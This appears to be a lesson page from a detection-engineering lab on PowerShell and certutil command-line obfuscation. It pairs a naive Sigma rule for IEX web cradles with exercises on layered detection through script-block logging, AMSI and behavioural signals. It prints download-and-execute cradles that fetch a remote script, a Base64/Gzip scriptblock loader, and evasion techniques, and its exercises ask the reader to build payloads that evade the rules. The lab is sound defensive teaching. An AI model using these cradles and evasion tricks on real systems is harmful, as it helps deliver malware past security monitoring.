




# Demo 08 - Obfuscation

> *"`IEX` is three characters. `('I'+'E'+'X')` is thirteen that evaluate to the same three. Which one does your rule look for?"*

## The Bypass

Obfuscation is **the sustained adversary response to literal-string detection**. Where the previous demos exploited one specific gap (whitespace, quoting, delimiters), obfuscation is the meta-pattern: combine *all* the syntactic flexibility a runtime offers to construct any required string at runtime, never as a literal.

PowerShell is the canonical playground. The runtime is Turing-complete and forgiving, which means there are infinite ways to produce a given string:

- **String concatenation:** `'I'+'E'+'X'`
- **Character substitution:** `[char]73 + [char]69 + [char]88`
- **Reversal:** `'XEI'[2..0] -join ''` or `[Array]::Reverse(...)`
- **Format strings:** `'{0}{1}{2}' -f 'I','E','X'`
- **Environment variable slicing:** `$env:PUBLIC[3,5,11]` - picking specific characters from any string in the environment
- **Compression:** Base64-encode, then `Convert.FromBase64String` + `[System.IO.Compression.GzipStream]`
- **Encryption:** AES-encrypt the payload, decrypt at runtime with a key from elsewhere
- **Aliasing:** with "set-alias"

Combine 2-3 of these and the resulting command line is unrecognizable, even though it executes the same payload.

## ADE Category

**ADE1 - Reformatting in Actions** (in its most extreme form). The technique scales the basic "same outcome, different string" principle to its logical limit. Rules that pattern-match on the command line lose; the only winning move is to detect the *runtime resolution*, not the pre-resolution string.

## Illustrative Payload

### The certutil download cradle - clean vs. obfuscated

A clean `certutil` download cradle is trivially detectable by AV/EDR because the command line contains all the literal strings everyone watches for:



The same payload, after obfuscation primitives are applied (Unicode lookalikes for ASCII letters, mid-token quote splicing, casing tricks, superscript characters), looks like this:



`certutil` still resolves it to `certutil.exe -urlcache -split -f https://example.org/file.ext output.ext` — but not because the command-line *parser* folds anything. The arguments reach the process completely unfolded (measured: `argv[1]` is still `-ᵘʳˡᶜache`, superscripts intact). The folding happens *inside certutil*, in the case-insensitive string comparison it uses to match its own verbs: Windows' `CompareStringW`/`lstrcmpiW`/`StrCmpIW` treat the Unicode superscript letters (and the en/em/minus dashes) as equal to their ASCII counterparts (verified: `lstrcmpiW('urlcache', '-ᵘʳˡᶜache'-without-prefix)` returns equal). Because this lives in the *binary's* comparison, not a shared parser, the accepted set is **per-binary** — certutil accepts the en dash but not U+2015; `ipconfig` accepts superscripts but not a dash prefix; `powershell` accepts U+2013/2014/2015 but not U+2212. The process telemetry preserves the obfuscated bytes — and those bytes don't contain the literal `urlcache` or `split` or `f https://` strings the rules look for:



To the EDR's regex engine, these are entirely different strings. To the OS, they're the same execution.



### PowerShell-side obfuscation primitives

```powershell
# Goal: invoke IEX on a downloaded script

# Layer 1 - string concatenation
&('IE' + 'X')(New-Object Net.WebClient).DownloadString('http://example.com/.ps1')

# Layer 2 - character codes
&([char]73 + [char]69 + [char]88) ` ((New-Object Net.WebClient).DownloadString('http://example.com/.ps1'))

# Layer 3 - Base64 + decompression
$b64 = '<long base64 of compressed payload>'
$gz  = [System.IO.Compression.GzipStream]::new(
        [IO.MemoryStream]::new([Convert]::FromBase64String($b64)),
        [System.IO.Compression.CompressionMode]::Decompress)
$sr  = [IO.StreamReader]::new($gz)
&([scriptblock]::Create($sr.ReadToEnd()))
```

Each layer is independently effective. Stacked, they defeat almost any static rule.

## Vulnerable Rule

```yaml
title: PowerShell IEX Web Cradle (Naive)
id: 88888888-8888-8888-8888-000000000001
status: experimental
description: Detects IEX invoking content fetched from the web
logsource:
  product: windows
  category: ps_script
detection:
  selection_iex:
    ScriptBlockText|contains:
      - 'IEX'
      - 'Invoke-Expression'
  selection_web:
    ScriptBlockText|contains:
      - 'DownloadString'
      - 'Invoke-WebRequest'
  condition: selection_iex and selection_web
level: medium
```

## Why It Misses

`ScriptBlockText|contains: 'IEX'` is defeated the moment the literal string `IEX` doesn't appear in the script - which is the entire point of obfuscation. Concatenation, character codes, format strings, and runtime construction all produce script text that has no `IEX` substring even though `IEX` ends up being invoked.

Crucially, **PowerShell Script Block Logging (Event 4104) logs the *source text* of every script block PowerShell compiles.** Source-level obfuscation (`'IE'+'X'`, `[char]` sequences, format strings) is therefore on record *as written* - you see the construction and match the pattern; 4104 does not rewrite `'IE'+'X'` into `IEX` for you. And when code builds a *new* script block at runtime (`[scriptblock]::Create($decoded)`), that inner block is compiled too, so its now-decoded text lands in its own 4104 event.

## Your Turn - Design the Layered Detection

**Goal.** Defeat obfuscated PowerShell execution. Not "catch every variant" - that's mathematically impossible - but make obfuscation expensive enough that it stops being worthwhile.

**Constraints.**
- This is **not a single rule** - it's a layered strategy. Single static rules lose to determined obfuscation.
- Defense must work across *multiple telemetry surfaces*: script content, AMSI, behavioral.
- Each layer should catch what the layer above misses. No single layer is sufficient.

**Hints.**
- PowerShell has a finite set of *primitives* attackers use to construct strings at runtime (`[char]`, concatenation, `[Convert]::FromBase64String`, etc.). Enumerate them.
- AMSI sees the deobfuscated form *after* the runtime has resolved it. What does that buy you that script-block logging doesn't?
- Behavioral chaining ("PowerShell + outbound HTTP + child process spawn within 5 seconds") is invariant to *all* obfuscation. Why?
- What's the cost-benefit of memory inspection? When is it worth turning on?

**Reflection.** Compare your strategy to the maintainer's in [`../../solutions/README.md`](../../solutions/README.md#demo-08--obfuscation). The maintainers describe four defensive layers - sketch how an attacker would defeat each one in turn, and what the *next* layer above it should look like.

## Exercises

1. Why does PowerShell Script Block Logging **partially** defeat obfuscation but not fully? Be specific about which obfuscation techniques it catches and which it doesn't.

2. Write the spirit of the hardened rule for **bash** obfuscation - common bash obfuscation primitives include `$IFS`, brace expansion `{a,b,c}`, base64 piping, and command substitution `$(...)`. List five primitives and the regex patterns that would catch them.

3. The hardened rule's `selection_obfuscation_primitives` enumerates eight patterns. Construct a PowerShell payload that decodes and executes a payload while triggering **none** of them. (Hint: PowerShell offers more decoding primitives than the regex covers - and you can also smuggle the payload into a custom .NET assembly loaded at runtime.)

4. Combine with **Demo 04 (Boolean Replacement)** and **Demo 05 (Quote Manipulation)**. Build a single PowerShell payload that uses obfuscation to hide an `IEX` invocation, boolean trickery to hide a `-Force` flag, and quote manipulation to hide a sensitive cmdlet name. Now reason about which layers of defense (script-block logging, AMSI, behavioral, memory inspection) catch it.
